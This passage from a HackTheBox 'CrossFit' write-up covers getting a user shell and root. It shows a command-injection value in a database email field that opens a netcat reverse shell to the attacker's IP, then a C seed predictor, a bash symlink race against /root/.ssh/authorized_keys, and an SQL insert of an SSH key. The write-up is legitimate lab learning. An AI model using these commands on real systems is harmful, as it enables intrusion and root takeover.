

*Nooooice*

So putting it all together, to trigger the exploit I needed to upload some file to the messages folder on the FTP server. On the MySQL database I need to insert a row in the users table with an *'email'* of something like `-B || nc 10.10.14.52 1234 -e /bin/bash` to execute my reverse shell. Finally I needed to go and get a glass of water while waiting for my exploit to run.



*Noooooice*

I got a <s>pretty crappy</s> shell as `isaac`. To give myself a more stable shell, I added my public SSH key as an authorized key for `isaac` so I could SSH in.

```
ghostccamm@kali:~/Desktop/hackthebox/machines/crossfit/get_root/ssh_keys$ ssh -i id_rsa isaac@crossfit.htb
Enter passphrase for key 'id_rsa':
Linux crossfit 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Tue May 12 02:53:34 2020 from 10.10.10.2
isaac@crossfit:~$ id
uid=1000(isaac) gid=1000(isaac) groups=1000(isaac),50(staff),116(ftp),1005(admins)
isaac@crossfit:~$
```

*Nooooooice*

---

## Root: Reverse Engineering and Random Number Exploitation

After getting access to `isaac`, I am going to be honest and admit I got a quite stuck. I was not completely sure what to do next for some time, until I uploaded [pspy](https://github.com/DominicBreuker/pspy) to the box and looked at file system events with `pspy -f`. The most interesting events that I saw were coming from `/usr/bin/dbmsg`, which is significant to me due to the name, the references to databases and messaging on the machine and because it is a non-standard binary on Linux machines. I tried to run `/usr/bin/dbmsg` and get a peculiar message indeed...

```
isaac@crossfit:~$ /usr/bin/dbmsg
This program must be run as root.
```

*Hhhhhhhhhhhhhhmmmmmmmmmmmmmmmmmm*

Since I could see the system file events associated with `/usr/bin/dbmsg` being executed, I knew that the `root` user had been configured to periodically run this binary since no other user could execute it.

However, I shed some tears when I realised that I had to reverse engineer (RE) the binary, which is not one of my strongest skills. Alas, I do want to learn more about RE, so I downloaded the binary to my machine and fired up [Ghidra](https://ghidra-sre.org/) to have a closer look at it.

The first thing that piqued my interest was the `main` function and how the psuedo-random number generator seed was set.



It may by hard to discern how the seed is set from the above snippet, but the above code is effectively `srand(time(NULL))` in C, which sets the seed of the pseudo-random number generator to the time of execution of the `time(NULL)` call. This is not a secure method of seed generation, especially since I had access to machine and could continually brute force the seed by executing the two programs at a similar time.

Following along the code execution, we can see that a function called `process_data` is executed once the seed has been set. Let's take a closer look at that.



When I first saw this function I just broke down crying because I was scared by all of the assembly and decompiled C code. However, after a glass of whiskey and a second look at it I quickly realised that it was not that confusing and I could easily reverse engineer it.

Firstly, I noticed that the `messages` table on the MySQL server that I saw earlier is queried and each row is iterated through using the [MySQL C API](https://dev.mysql.com/doc/c-api/5.7/en/c-api-introduction.html). The most interesting function that was used from this API was `mysql_fetch_row`, that returns a "MySQL Row Structure" according to the [documentation](https://dev.mysql.com/doc/c-api/5.7/en/mysql-fetch-row.html). This wording initially confused me, but I just realised it was just a convoluted way of saying that it returns an array of pointers to the data stored in each column of the row.

Now I might of triggered some of you by the mention of pointers. *Never fear, Ghostccamm is here to <s>try</s> explain how it works.* Let's say the messages table has the following row.

```
+----+---------+-----------------------+-----------+
| id | name    | email                 | message   |
+----+---------+-----------------------+-----------+
|  1 | someone | someone@somewhere.com | something |
+----+---------+-----------------------+-----------+
```

When `mysql_fetch_row` is called, it will return an array where the first element will 'point' to the string of the id, which is "1" in the above example. The next element in the array would be the name "someone" and so on for the other columns.

Now for a very brief refresher in pointers, the dereferencing operator `*` means to look at the data stored at that address instead of the address itself. Lets say we have an array called `somearray`, we can express the data in the first element using either `somearray[0]` or `*somearray`. They both mean the same thing since both expressions are looking at the data stored at the start of the array. This means that the snippet, `lVar3 = *local_38`, is just setting the variable `lVar3` to the id of the row.

Now lets put all of these jigsaw pieces together. One of my goals was to figure out the location where the contents from the query is saved to, which is shown in the following decompiled code snippet.

```c
lVar3 = *local_38;
uVar2 = rand();
snprintf(local_c8,0x30,"%d%s",(ulong)uVar2,lVar3);
sVar5 = strlen(local_c8);
md5sum(local_c8,sVar5 & 0xffffffff,local_f8,sVar5 & 0xffffffff);
snprintf(local_98,0x30,"%s%s","/var/local/",local_f8);
local_40 = fopen(local_98,"w");
```

Seems confuddling? We actually already have everything we need to know to determine where the file is saved. `lVar3` is the id of the queried row and `uVar2` can be determined by executing a separate program that sets random seeds using `srand(time(NULL))` to 'guess' the seed that was used by `dbmsg`. Once these two variables are known, the filename is just the MD5 hash of the concatenation of `uVar2` and `lVar3` in `/var/local`.

However, would I have enough time to do any naughty stuff like creating a symbolic link to `/root/.ssh/authorized_keys`? Yes I will! The seed is set at the start of the program then queries the MySQL, which although is running `localhost` gave me enough time to exploit the race condition and create our symbolic link to `/root/.ssh/authorized_keys`.

Now I just had to exploit this program! I first created a program using C to generate the string that is then hashed using MD5 (done using bash later), which I chucked down below. The reason why I chucked the number `1` after the randomly generated number is because this will be the id of the row that I will insert my payload into on the MySQL table.

```C
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
	srand(time(0));
	printf("%d1", rand());
}
```

I then compiled and uploaded the binary to the machine and executed the following bash to create the symbolic links to `/root/.ssh/authorized_keys`.

```bash
while :; do ln -s /root/.ssh/authorized_keys "/var/local/$(./exploit | md5sum | cut -c -32)" 2>/dev/null; done
```

Finally we just need to insert our public SSH key into the table `messages` with the id of 1. I did this using the follow SQL query.

```sql
insert into messages values (1, "", "", "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCvS6g5B96A8D2JL25Pwe0fZc+LmeecPn71xo2ozSxk5maKZSL/2TQ4Rvm0HbmTKeGElB/mAPw1hTq8FUsvcK++MiMwdEijWGPwXvFMgFGA/YIsKAD/5cvG0ZpkZYi20VvOb6MnafpuCjqgjGFs1a1yYfafVOXadAYkWDvB9gAegeHpW0gAyose/5Z4/K7QuqujfKji6jklQBiPyr+BF+KPSo8cwfaTvkd7j0k1qbeHxS383IUnyF3qi0hxWO4ZZi7iky4pLDY+td++7uc42en6x30kLD2GtC2Px9T7PB3PhfDOJlWS71nuBUy2wqqQp7pwf5Q0ZdNvMajJvkU+9l3y/+02ynRpLG+5ukaZkcyGorwCckWW3AZEzSbHyW9mhSU57lH4NGR7zs0AfQEuQhwFcG+PqGSk2t1dACj1SIt4FoeDm7+qqoDCoSUzY7M4CpYpJLE534gsmh3uyzDY2TR5wNNOxA1CaqZnEnHNv9YS9Vm2eJWpTyukI1eIMvAVlk0= ghost@yourshell");
```

How I checked to see if my exploit was working correctly was by creating the symbolic link to a file that I could view. When I saw my payload pop into that file I went...

**YEEEEEEEEEAAAAAAAAA BOOOI!**

It worked and all I had to do was get root!



**YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYEEEEEEEEEEEEEEEEEEEEEEEEEEAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBOOOOOOOOOOOOOOIIIIIIIIIIIIII!!!!**

*It was at this point I passed out due to exhaustion and slept for 1 week straight.*

---

## Conclusion

This machine was *extremely* hard <s>(insert some sexual innuendo here)</s>, but one of the most rewarding experiences I have had on HackTheBox so far!

I really enjoyed the XSS scripting for initial and had a tonne of fun writing my little Python script to handle all of the HTTP requests and payload generation. From an aesthetic point of view, I love it when I am exploiting something to have multiple windows up using multiple services to trigger my exploits, makes me feel like a mad hacker. It was also a great opportunity to learn more about XSS and RE that I was *alright* at before, but my skills in those disciplines have significantly improved completing this box.

Now I am going back to bed to continue my recovery after completing this box. I will see you all the next time!
